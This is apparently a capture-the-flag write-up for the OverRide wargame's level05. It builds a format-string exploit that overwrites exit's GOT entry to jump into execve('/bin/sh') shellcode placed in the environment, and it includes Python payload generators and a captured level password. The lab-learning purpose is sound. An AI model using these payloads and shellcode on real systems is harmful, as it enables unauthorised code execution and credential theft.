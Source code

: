 
fuzzing phase

```
level05@OverRide:~$ ./level05
ssss
ssss

level05@OverRide:~$ ./level05
AbCdE
abcde

obiously some format string here

level05@OverRide:~$ ./level05
%p %p %p

level05@OverRide:~$ (python -c 'print "AAAA" + " %p " * 10') | ./level05
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd6bf  0xffffd6be  (nil)  0xffffffff  0xffffd744  0xf7fdb000  0x61616161

level05@OverRide:~$ (python -c 'print "AAAA" + " %10$p "') | ./level05
aaaa 0x61616161
```

lets jump into jdb 

```
   0x08048507 <main+195>:	call   0x8048340 <printf@plt>
   0x0804850c <main+200>:	movl   $0x0,(%esp)
   0x08048513 <main+207>:	call   0x8048370 <exit@plt>
```   
   its GOT obviously

```
call   0x8048370 <exit@plt>

(gdb) x 0x8048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```

```
export shellcode=$(python -c 'print "\x90" * 300 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

```
x/600wx $esp
0xffffde60:	0x90909090	0x90909090	0x90909090	0x90909090


(gdb) p 0x80497e0  = 134518752
(gdb) p 0xffffde60 - 4 = 4294958684

```

```
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "%4294958684d%10$n"' ; cat) | ./level05 > /dev/null
id 1>&2
```

mmm smthg wrong

lets debug the assembly

```

=> 0x8048466 <main+34>:	movl   $0x64,0x4(%esp)
   0x804846e <main+42>:	lea    0x28(%esp),%eax
   0x8048472 <main+46>:	mov    %eax,(%esp)
   0x8048475 <main+49>:	call   0x8048350 <fgets@plt>
   
buffer of size 100 stored at esp + 0x28
```
```
0x08048495 <+81>:	cmp    $0x40,%al

0x080484a7 <+99>:	cmp    $0x5a,%al
```
The code checks if the character is less than or equal to 0x40, which corresponds to '@' in ASCII,
and if it is greater than 0x5a, which corresponds to 'Z' in ASCII.
If the character is within this range,
the code jumps to the main+135 address, which indicates that the input is invalid.

 0x080484cb <+135>:	addl   $0x1,0x8c(%esp)

```
'A' 0x41 65    XOR     32

01000001 = 65 = 'A'
XOR
00100000 = 32

01100001 = 97 = 'a'

python3 -c "print(65 ^ 32)"
97
```

```
level05@OverRide:~$ (python -c 'print "AAAA" + "BBBB" " %10$p %11$p"') | ./level05
aaaabbbb 0x61616161 0x62626262
```
the addresses in the stack are as follows
```
(gdb) x/900 $esp
0xffffd3c0
0xffffd3d0
0xffffd3e0
```
p 0xffffd3c0 = 4294955968

too long values, which results to negative value in signed 2's complement (-11328)

so we need to split the value if we want to properly override exit.GOT 

```
shellAddr = 0xMsbLsb
 
Lsb - 4 - 4 (already printed 2 addr)
Msb - Lsb = 0xffff - Lsb

exmpl:

0xffffdc59

(gdb) p 0xdc59 - 8 = 56401
(gdb) p 0xffff - 0xdc59 = 9126
```

As for the shellcode the while loop lower case the content of the buffer,
so it prevents us from executing any shellcode that contains bytes which values range between 0x40 and 0x5a.
we ll inject it in the env
```
(gdb) x/900 $esp

0xffffdd00:	0x90909090	0x90909090	0x90909090	0x90909090

(gdb) p 0xdd00 - 8        = 56568
(gdb) p 0xffff - 0xdd00   = 8959


level05@OverRide:~$ (python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56568d%10$n%8959d%11$n"' ; cat) | ./level05 > /dev/null
whoami 1>&2
level06
pwd 1>&2
/home/users/level05
cat /home/users/level06/.pass 1>&2
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```

```
define hook-stop
   x/10i $eip
   echo "\n--------------------\n"
   x/x 0x80497e0

r

=> 0x8048507 <main+195>:	call   0x8048340 <printf@plt>
   0x804850c <main+200>:	movl   $0x0,(%esp)
   0x8048513 <main+207>:	call   0x8048370 <exit@plt>
--------------------
"0x80497e0 <exit@got.plt>:	0x08048376

ni

--------------------
"0x80497e0 <exit@got.plt>:	0xffffdd00

```


```py
import struct

exit_addr = struct.pack ("I", 0x80497e0)
exit_addr += struct.pack ("I", 0x80497e0 + 2)
print exit_addr  + "%56984d%10$n" + "%8543d%11$n"
```

more organized syntax

```py
import struct

shell_addr = 0xffffdea0

exit_addr = struct.pack ("I", 0x80497e0)
exit_addr += struct.pack ("I", 0x80497e0 + 2)

shell_msb = shell_addr >> 16
shell_lsb = shell_addr & 0xffff


print exit_addr  + "%" + str(shell_lsb - 8) + "d%10$hn" + "%" + str(shell_msb - shell_lsb) + "d%11$hn"
```

```
level05@OverRide:~$ python /tmp/pyload.py > /tmp/pyload

level05@OverRide:~$ (cat /tmp/pyload; cat) | ./level05 > /dev/null
pwd 1>&2
/home/users/level05
cat /home/users/level06/.pass 1>&2
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
